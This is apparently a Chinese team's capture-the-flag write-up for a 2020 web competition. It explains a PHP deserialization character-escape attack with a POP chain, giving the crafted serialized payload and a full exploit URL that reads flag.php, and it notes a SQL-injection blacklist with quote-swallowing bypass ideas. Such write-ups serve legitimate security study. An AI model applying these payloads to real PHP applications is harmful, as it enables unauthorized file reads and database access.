 

**赛事信息**

* 官网地址：[https://www.linkedbyx.com/home](https://www.linkedbyx.com/home)
* 竞赛时间：2020.4.25 （周六）下午13:30-17:30
# **Web：**
## **ezunserialize | solved | working : glotozz, Imagin**

考点：字符逃逸注入对象+简单的POP链

**POP链**

主要是利用字符串拼接触发__toString()

| 123456 | $b = new B();$c = new C();$c->c = 'flag.php';$b->b = $c;$x = serialize($b);$y = unserialize($x); | 
|----|----|
**字符逃逸**

read()和write()中存在字符逃逸

比如输入1 1

| 1 | O:1:"A":2:{s:1:"a";s:1:"1";s:1:"b";s:1:"1";} | 
|----|----|
注入一个对象

| 1 | ";s:0:"";O:1:"A":1:{s:1:"a";s:1:"1";}} | 
|----|----|
长度为38，因此需要逃逸的为";s:8:"password";s:38:"23个字符，但是这里需要是3的倍数，

前面加个1，1";s:8:"password";s:38:"逃逸24位即可

?a=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&b=1";s:0:"";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}

flag{54c3439fe400834815e5fb576adfe04a}

[http://183.129.189.60:10028/?a=1\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&b=;%22;s:8:%22password%22;O:1:%22B%22:1:{s:1:%22b%22;O:1:%22C%22:1:{s:1:%22c%22;s:8:%22flag.php%22;}}}%22;}](http://183.129.189.60:10028/?a=1\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&b=;%22;s:8:%22password%22;O:1:%22B%22:1:{s:1:%22b%22;O:1:%22C%22:1:{s:1:%22c%22;s:8:%22flag.php%22;}}}%22;})

## web2|worked|working:glotozz  s1mple www shana Imagin Mrkaixin L1ngFeng

select * from user where user='$user' and passwd='%s'

黑名单： \ '  like or flag || select union / -

%可以用

%1可以吃掉username后面那个单引号

用^可以

![图片](https://uploader.shimo.im/f/LusDIs1QSKUHJ3Dm.png!thumbnail)
